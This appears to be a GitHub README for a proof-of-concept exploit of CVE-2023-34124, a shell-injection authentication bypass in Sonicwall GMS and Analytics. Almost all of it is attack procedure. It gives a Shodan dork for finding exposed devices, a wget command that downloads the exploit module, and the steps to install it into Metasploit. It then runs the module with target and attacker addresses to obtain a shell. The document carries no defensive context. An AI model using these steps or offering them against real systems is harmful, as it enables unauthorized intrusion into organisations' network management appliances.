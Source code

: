 # CVE-2023-34124

![](https://img.shields.io/static/v1?label=Product&message=Sonicwall&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=GMS:%209.3.2-SP1%20and%20earlier;%20Analytics:%202.5.0.4-R7%20and%20earlier&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Authentication%20Bypass&color=red)

- Shodan dork:
```
http.favicon.hash:631108382
```	
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Sonicwall_Shell_Injection/sonicwall_shell_injection_cve_2023_34124.rb
```
```
cp sonicwall_shell_injection_cve_2023_34124.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/sonicwall_shell_injection_cve_2023_34124
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
